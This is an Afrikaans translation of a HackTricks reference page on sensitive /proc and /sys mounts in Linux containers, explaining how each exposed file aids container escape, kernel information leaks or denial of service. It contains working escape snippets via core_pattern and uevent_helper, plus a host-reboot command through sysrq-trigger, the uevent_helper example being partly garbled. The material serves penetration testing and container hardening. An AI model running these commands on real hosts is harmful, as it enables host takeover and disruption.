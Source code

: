 # Sensitiewe Monteerplekke

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

<figure><img src="../../../../.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

Die blootstelling van `/proc` en `/sys` sonder behoorlike naamsruimte-isolasie stel beduidende sekuriteitsrisiko's in, insluitend aanvalsvlakvergroting en inligtingsoffergawe. Hierdie gids bevat sensitiewe lêers wat, indien verkeerd geconfigureer of deur 'n ongemagtigde gebruiker benader, kan lei tot kontainerontsnapping, gasverandering of inligting wat verdere aanvalle kan ondersteun. Byvoorbeeld, die verkeerde montering van `-v /proc:/host/proc` kan AppArmor-beskerming omseil as gevolg van sy padgebaseerde aard, wat `/host/proc` onbeskerm agterlaat.

**Jy kan verdere besonderhede van elke potensiële kwesbaarheid vind in** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)**.**

## procfs Kwesbaarhede

### `/proc/sys`

Hierdie gids maak toegang moontlik om kernelveranderlikes te wysig, gewoonlik via `sysctl(2)`, en bevat verskeie subgidse van belang:

#### **`/proc/sys/kernel/core_pattern`**

* Beskryf in [core(5)](https://man7.org/linux/man-pages/man5/core.5.html).
* Maak dit moontlik om 'n program te definieer om uit te voer wanneer 'n kernlêer gegenereer word met die eerste 128 byte as argumente. Dit kan lei tot kode-uitvoering as die lêer begin met 'n pyp `|`.
*   **Toets- en Uitbuitingvoorbeeld**:

```bash
[ -w /proc/sys/kernel/core_pattern ] && echo Yes # Toets skryftoegang
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # Stel aangepaste hanterer in
sleep 5 && ./crash & # Trigger hanterer
```

#### **`/proc/sys/kernel/modprobe`**

* Uiteengesit in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
* Bevat die pad na die kernelmodulelaaier, aangeroep vir die laai van kernelmodules.
*   **Toegangkontrole-voorbeeld**:

```bash
ls -l $(cat /proc/sys/kernel/modprobe) # Kontroleer toegang tot modprobe
```

#### **`/proc/sys/vm/panic_on_oom`**

* Verwys in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
* 'n Globale vlag wat beheer of die kernel paniekerig word of die OOM-killer aanroep wanneer 'n OOM-toestand voorkom.

#### **`/proc/sys/fs`**

* Volgens [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html), bevat opsies en inligting oor die lêersisteem.
* Skryftoegang kan verskeie ontkenning-van-diens-aanvalle teen die gas moontlik maak.

#### **`/proc/sys/fs/binfmt_misc`**

* Maak dit moontlik om tolke vir nie-inheemse binêre formate te registreer op grond van hul toorgetal.
* Kan lei tot bevoorregte eskalasie of toegang tot die root-skoot as `/proc/sys/fs/binfmt_misc/register` skryfbaar is.
* Relevant uitbuit en verduideliking:
* [Armoedige man se rootkit via binfmt\_misc](https://github.com/toffan/binfmt\_misc)
* Diepgaande handleiding: [Video skakel](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### Ander in `/proc`

#### **`/proc/config.gz`**

* Kan die kernelkonfigurasie onthul as `CONFIG_IKCONFIG_PROC` geaktiveer is.
* Nuttig vir aanvallers om kwesbaarhede in die lopende kernel te identifiseer.

#### **`/proc/sysrq-trigger`**

* Maak dit moontlik om Sysrq-opdragte aan te roep, wat moontlik onmiddellike stelselherlaaie of ander kritieke aksies kan veroorsaak.
*   **Stelselherlaaivoorbeeld**:

```bash
echo b > /proc/sysrq-trigger # Herlaai die gasheer
```

#### **`/proc/kmsg`**

* Stel kernelringbufferboodskappe bloot.
* Kan help met kernel-uitbuitings, adreslekke, en die voorsiening van sensitiewe stelselinligting.

#### **`/proc/kallsyms`**

* Lys kernel-uitgevoerde simbole en hul adresse.
* Essensieel vir kernel-uitbuitontwikkeling, veral vir die oorkom van KASLR.
* Adresinligting is beperk met `kptr_restrict` ingestel op `1` of `2`.
* Besonderhede in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/[pid]/mem`**

* Koppel met die kernelgeheue-toestel `/dev/mem`.
* Histories vatbaar vir bevoorregte eskalasie-aanvalle.
* Meer oor [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/kcore`**

* Verteenwoordig die stelsel se fisiese geheue in ELF-kernformaat.
* Lees kan gasstelsel- en ander konteinergeheue-inhoud lek.
* 'n Groot lêergrootte kan lei tot leesprobleme of sagtewarestortings.
* Gedetailleerde gebruik in [Dumping /proc/kcore in 2019](https://schlafwandler.github.io/posts/dumping-/proc/kcore/).

#### **`/proc/kmem`**

* Alternatiewe koppelvlak vir `/dev/kmem`, wat die kernel virtuele geheue verteenwoordig.
* Maak lees en skryf moontlik, dus direkte wysiging van kernelgeheue.

#### **`/proc/mem`**

* Alternatiewe koppelvlak vir `/dev/mem`, wat fisiese geheue verteenwoordig.
* Maak lees en skryf moontlik, wysiging van alle geheue vereis die oplossing van virtuele na fisiese adresse.

#### **`/proc/sched_debug`**

* Gee prosesbeplanningsinligting terug, om PID-naamsruimtebeskerming te omseil.
* Stel prosesname, ID's, en cgroup-identifiseerders bloot.

#### **`/proc/[pid]/mountinfo`**

* Verskaf inligting oor koppelplekke in die proses se koppelnaamruimte.
* Stel die ligging van die kontainer `rootfs` of beeld bloot.

### `/sys` Kwesbaarhede

#### **`/sys/kernel/uevent_helper`**

* Gebruik vir die hanteer van kerneltoestel `uevents`.
* Skryf na `/sys/kernel/uevent_helper` kan arbitrêre skripte uitvoer by `uevent`-triggergebeure.
*   **Voorbeeld vir Uitbuiting**: %%%bash

### Skep 'n lading

echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

### Vind gaspad vanaf OverlayFS-koppelpunt vir kontainer

host\_path=$(sed -n 's/._\perdir=(\[^,]_).\*/\1/p' /etc/mtab)

### Stel uevent\_helper in op skadelike helper

echo "$host\_path/evil-helper" > /sys/kernel/uevent_helper

### Trigger 'n uevent

echo change > /sys/class/mem/null/uevent

### Lees die uitset

cat /output %%%
#### **`/sys/class/thermal`**

* Beheer temperatuurinstellings, moontlik veroorsaak DoS aanvalle of fisiese skade.

#### **`/sys/kernel/vmcoreinfo`**

* Lek kernel adresse, moontlik kompromitteer KASLR.

#### **`/sys/kernel/security`**

* Bevat `securityfs` koppelvlak, wat konfigurasie van Linux Security Modules soos AppArmor moontlik maak.
* Toegang kan 'n houer in staat stel om sy MAC-stelsel uit te skakel.

#### **`/sys/firmware/efi/vars` en `/sys/firmware/efi/efivars`**

* Blootstelling van koppelvlakke vir interaksie met EFI veranderlikes in NVRAM.
* Verkeerde konfigurasie of uitbuiting kan lei tot 'n baksteen laptop of onopstartbare gasheer masjiene.

#### **`/sys/kernel/debug`**

* `debugfs` bied 'n "geen reëls" foutopsporingskoppelvlak na die kernel.
* Geskiedenis van sekuriteitsprobleme as gevolg van sy onbeperkte aard.

### Verwysings

* [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
* [Begrip en Verharding van Linux Houers](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc\_group\_understanding\_hardening\_linux\_containers-1-1.pdf)
* [Misbruik van Bevoorregte en Onbevoorregte Linux Houers](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container\_whitepaper.pdf)

<figure><img src="../../../../.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

<details>

<summary><strong>Leer AWS hak van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien jou **maatskappy geadverteer in HackTricks** of **laai HackTricks af in PDF-formaat** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling van eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
